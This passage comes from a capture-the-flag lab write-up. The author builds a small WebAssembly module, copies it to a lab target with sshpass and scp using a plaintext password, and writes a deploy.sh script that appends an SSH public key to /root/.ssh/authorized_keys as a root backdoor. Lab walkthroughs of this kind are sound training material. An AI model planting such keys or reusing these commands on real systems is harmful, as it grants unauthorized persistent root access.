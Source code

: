 ![image*](/img/image-20210207134325508.png)

In fact, the default code (which just returns 42) will solve my issue
here. I'll hit the "Build" button to generate the Wasm (shown on the
bottom left). Now I can run it and it will print 42 (bottom right).

I'll change the name of the function from `main` to `info`, change 42 to
1, and then Build again. If I want to run it, I need to change the call
in the JS on the top right, but I don't need to run it. There are two
download buttons. "Wat" is the text version, and "Wasm" is the binary.
I'll take the binary.

#### Setup

I'll copy the new Wasm into `/dev/shm`:



    oxdf@parrot$ sshpass -p whythereisalimit scp program.wasm admin@10.10.10.227:/dev/shm



I'll also create `deploy.sh` that will create a `.ssh` directory for the
root user if it doesn't exist, and then write my public SSH key into
`authorized_keys`:



    #!/bin/bash

    echo "[*] Adding public key to /root/.ssh/authorized_keys"
    mkdir -p /root/.ssh
    echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" >> /root/.ssh/authorized_keys
    echo "[+] Done."
